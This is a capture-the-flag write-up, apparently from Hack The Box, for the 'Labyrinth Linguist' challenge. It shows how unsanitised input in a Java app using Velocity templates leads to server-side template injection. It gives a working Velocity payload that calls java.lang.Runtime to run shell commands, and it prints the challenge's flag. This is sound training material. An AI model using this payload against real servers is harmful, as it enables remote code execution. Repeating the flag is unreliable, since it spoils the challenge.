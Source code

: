 # Labyrinth Linguist

## Enumeration

The web application shows a simple submit box to translate english to a made up language with some crazy unreadable font:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8c317022-3aec-4349-bd57-7ec6a2c836e5)

Looking through the provided source code, we see it is Java based and using the Velocity template library.
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6a269172-7dc4-498a-a476-02b72400d500)

No sign of user input sanitization in our text parameter so we should be good to go to try Server Side Template Injection:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5d20dac8-289f-4b2d-a2c4-6b6ae4189343)

Testing with a standard payload for this template, we have confirmed SSTI when we see the classic 49.

```
#set ($run=7*7) $run
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1be46e51-0cd9-4154-9791-4061fe1cc9be)

## Solution
Getting code execution isn't too difficult, a quick google search gives us the first link:  
[https://antgarsil.github.io/posts/velocity/](https://antgarsil.github.io/posts/velocity/)  
But we can find the same payload on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java) as well.

However, both payloads needs to be adjusted a bit because they don't seem to work out of the box. After a bit of back and forth with ChatGPT, we can reach this payload to get code execution:  

```
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('id')) $ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))#end
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/56b1dad3-4fe4-4735-b372-f0d680b54101)

From the source code we already know our flag is in the root directory but we need to know the exact name:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/86b64d9f-993f-4182-906c-94c90a363652)

Trying to read it with a wildcard breaks our syntax:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5e452603-6d17-4b14-bbcf-424cf7fef3dd)

So we just take another step to list it to get the name:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/17b962cc-e93a-4525-aeea-49c4ac62d910)

And now we can read it:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9d6811d5-622b-4554-b33c-774a4ed5500d)

`HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
